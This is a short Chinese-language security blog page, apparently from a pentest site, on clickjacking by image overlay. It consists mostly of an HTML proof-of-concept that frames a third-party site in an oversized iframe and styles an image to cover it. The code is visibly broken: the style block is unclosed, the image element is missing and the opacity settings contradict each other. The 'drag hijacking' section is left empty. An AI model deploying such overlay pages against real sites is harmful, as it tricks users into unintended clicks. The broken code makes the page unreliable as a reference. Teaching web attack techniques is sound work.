

# 点击劫持clickjacking
>小贱提示： -moz-opacity: 0.5;opacity: 0.5;为透明度，0为完全透明

## 图片覆盖
和点击劫持同理，只是把图片放在上面
```
<!DOCTYPE html>
<html>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<head>
<title>点击劫持 POC</title>
</head>
<body>
<style>
img {
width: 1440px;
height: 200px;
position: absolute;
top: -0px;
left: -0px;
z-index: 2;
-moz-opacity: 1;
opacity: 1;
filter: alpha(opacity=0);

</style>
<iframe src="http://mmore.xyz" width=2000 height=1200 ></iframe>

</body>
</html>
```
## 拖拽劫持
原理相同，懒得写了


__原创文章，转载请注明转载自[http://www.8pwn.com](http://www.8pwn.com)__

[返回上一层](./web)
